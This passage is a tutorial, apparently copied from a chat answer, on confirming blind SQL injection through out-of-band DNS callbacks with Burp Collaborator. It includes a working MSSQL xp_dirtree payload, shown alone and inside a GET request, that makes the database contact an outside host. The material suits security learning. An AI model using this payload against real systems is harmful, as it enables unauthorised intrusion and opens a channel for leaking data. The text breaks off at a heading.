 - The app doesn’t show any error,
- No data is returned,
- You can’t tell if your injection worked.

So, how do you confirm the injection is successful? 🤔

👉 Use **OAST** — by making the **database connect back to your server** (e.g., via DNS).

---

## 🧰 Solution: Use **Burp Collaborator**

**Burp Collaborator** is a tool in **Burp Suite Professional** that lets you:

1. Generate a **unique domain name** (like `abcxyz.burpcollaborator.net`).
2. Watch for incoming requests (DNS, HTTP, SMTP, etc.) to that domain.
3. Confirm if your payload triggered a network request (even if the web app gives no response).

---

## 🧪 Example with Microsoft SQL Server

### 💥 The Injection Payload:

```sql
sql
CopyEdit
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

This gets injected into a vulnerable parameter like:

```
http
CopyEdit
GET /product?id=1'; exec master..xp_dirtree '//your-collab-id.burpcollaborator.net/a'-- HTTP/1.1
```

### 🧠 What It Does:

- `xp_dirtree` is a **stored procedure** in Microsoft SQL Server that tries to **list the contents of a network path** (like a shared folder).
- When it runs, the database server sends a **DNS request** to resolve:
    
    ```
    CopyEdit
    0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
    
    ```
    
- That DNS request goes to Burp Collaborator's server.

---

## 📡 Burp Collaborator Logs the Request
